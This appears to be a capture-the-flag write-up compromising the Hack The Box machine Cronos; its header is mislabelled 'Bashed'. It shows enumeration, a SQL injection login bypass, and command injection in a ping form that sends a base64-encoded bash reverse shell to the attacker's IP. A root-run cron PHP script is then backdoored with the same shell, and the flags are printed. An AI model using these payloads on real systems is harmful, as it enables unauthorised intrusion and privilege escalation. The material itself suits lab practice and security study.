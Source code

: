 # Bashed
>Author : Xyan1d3
>Date : 29th June 2021
>IP : 10.10.10.13
>OS : Linux
>Difficulty : Medium
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jun 30 01:45:34 2021 as: nmap -sC -sV -v -oN nmap/cronos 10.10.10.13
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.076s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Cronos
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## DNS Enumeration
We do a `dig` on the domain to check any available domain of this box.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/cronos]
└──╼ # dig ANY cronos.htb @10.10.10.13

; <<>> DiG 9.16.15-Debian <<>> ANY cronos.htb @10.10.10.13
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 32204
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;cronos.htb.                    IN      ANY

;; ANSWER SECTION:
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13

;; ADDITIONAL SECTION:
ns1.cronos.htb.         604800  IN      A       10.10.10.13

;; Query time: 80 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Wed Jun 30 01:48:40 IST 2021
;; MSG SIZE  rcvd: 131
```

We could add the domain names discovered on in our `/etc/hosts`.

## Web Enumeration
We visit the site and see that `10.10.10.13` , `ns1.cronos.htb` & `cronos.htb` has apache2 default page.
![[Pasted image 20210630015437.png]]

But, The `admin.cronos.htb` has a login page on visiting.
![[Pasted image 20210630015520.png]]

We could try default creds but it doesn't seem to work.
We try some basic SQL injection and we get in by `admin' OR '1'='1` in the username field.
![[Pasted image 20210630015744.png]]

We get into the site and find out that we have a field for entering the IP and we can do a `traceroute` or `ping`.
For, Some reason the `traceroute` command does not work so we will be trying to use the `ping` here.
![[Pasted image 20210630020020.png]]

Now, We may try to do some command execution. If we are allowed to do so.
![[Pasted image 20210630020238.png]]

The form is vulnerable to command injection, Now We may try to get a reverse shell from here.

# Initial FootHold as www-data
We enter this in the IP field and initiate a `ping` : `10.10.14.11;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS84ODg4IDA+JjE= |base64 -d|bash;`

And, We get a reverse shell back as the user `www-data`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/cronos]
└──╼ # shelter rev bash
Gtk-Message: 02:03:22.200: Failed to load module "colorreload-gtk-module"
Gtk-Message: 02:03:22.200: Failed to load module "window-decorations-gtk-module"
[+] Copied reverseshell payload echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS84ODg4IDA+JjE= |base64 -d|bash
[+] Starting up Shell Handler...
Listening on 0.0.0.0 8888
Connection received on 10.10.10.13 52372
bash: cannot set terminal process group (1382): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Root Escalation
We check the `/etc/crontab` and find out an intersting command in the file which runs a php script as `root` which is writable by `www-data`.
```python
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We could drop a reverse shell to get a shell back as `root`.
I used `system` and droped a bash reverse shell here.
```python
www-data@cronos:/var/www$ cat /var/www/laravel/artisan                              
#!/usr/bin/env php                                                                  
<?php
system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjE= |base64 -d|bash");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader

*** SNIP ***

```

Now, We wait for a minute to get a shell or `00` seconds to be more exact.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/cronos]
└──╼ # shelter rev bash
Gtk-Message: 02:18:37.120: Failed to load module "colorreload-gtk-module"
Gtk-Message: 02:18:37.121: Failed to load module "window-decorations-gtk-module"
[+] Copied reverseshell payload echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjE= |base64 -d|bash
[+] Starting up Shell Handler...
Listening on 0.0.0.0 9001
Connection received on 10.10.10.13 42366
bash: cannot set terminal process group (2322): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Getting the User Flag
We could get the `user.txt` from the `/home/noulis/` directory.
```python
root@cronos:~# cd /home/noulis/
root@cronos:/home/noulis# ls -l
total 4
-r--r--r-- 1 noulis noulis 33 Mar 22  2017 user.txt
root@cronos:/home/noulis# cat user.txt 
51d236438b333970dbba7dc3089be33b
```

## Getting the Root Flag
We could get the `root.txt` from the `/root` directory.
```python
root@cronos:/home/noulis# cd /root/
root@cronos:~# ls -l
total 4
-r-------- 1 root root 33 Mar 22  2017 root.txt
root@cronos:~# cat root.txt 
1703b8a3c9a8dde879942c79d02fd3a0
```
